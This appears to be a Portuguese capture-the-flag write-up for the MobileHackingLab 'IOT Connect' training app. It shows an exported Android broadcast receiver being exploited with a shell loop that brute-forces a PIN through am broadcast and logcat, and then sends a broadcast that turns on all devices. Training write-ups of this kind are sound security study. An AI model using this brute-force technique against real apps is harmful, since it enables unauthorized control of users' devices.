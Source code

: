 # IOT Connect - Android Broadcast Receiver Challenge

Ao analisár o AndoidManifest.xml é possivel verificar que o Recever a baixo está setado como exported="true", referente à action MASTER_ON revela uma superfície de ataque potencial.

<receiver android:name="com.mobilehackinglab.iotconnect.MasterReceiver" android:enabled="true" android:exported="true">

![image](https://github.com/user-attachments/assets/91069519-9230-4088-a86f-063124f71794)



![image](https://github.com/user-attachments/assets/042662a1-0d2c-4356-8c3b-635d10ff04e0)


![image](https://github.com/user-attachments/assets/c960ba7d-9bbf-4d0a-abcf-af2eaaa8aff3)


![image](https://github.com/user-attachments/assets/bad7fb75-8ef9-4632-8899-0e803e5053f3)


É necessario acesso de root para poder ter permissão no logcat

emulator64_x86_64_arm64:/ $ su 

Podemos fazer um brute force no PIN e verificar se os dispositivos foram ligados com logcat.

emulator64_x86_64_arm64:/ #  for i in $(seq 0 9999); do logcat -c && am broadcast -a MASTER_ON --ei key $i > /dev/null && sleep 0.3 && logcat -d | grep -q "Turning all devices on" && echo "[+] PIN FOUND: $i" && break; done

Depois de identificar o PIN é so utilizar enviando um broadcast para ligar os dispositivos.

emulator64_x86_64_arm64:/ #  am broadcast -a MASTER_ON --ei key 345


![image](https://github.com/user-attachments/assets/3a1c0790-1fd4-4939-bb5a-39c7a83f0c5e)


![image](https://github.com/user-attachments/assets/ea8cc476-dbf8-418b-94d8-f795d2f4ea54)



![image](https://github.com/user-attachments/assets/dd080c64-bbb9-44e5-bdb0-0b4ae4eb6b44)


![image](https://github.com/user-attachments/assets/8fe18404-7f2a-4300-ae82-d063f3554c5c)


![image](https://github.com/user-attachments/assets/6279bf9d-fcf9-43b0-ae5e-327926a39b73)


am broadcast -a MASTER_ON --ei key 345

![image](https://github.com/user-attachments/assets/23e00328-d698-4c3e-87d5-3d646a57fb03)

https://riptutorial.com/android/example/10642/sending-broadcast


https://www.mobilehackinglab.com/path-player?courseid=lab-iot-connect
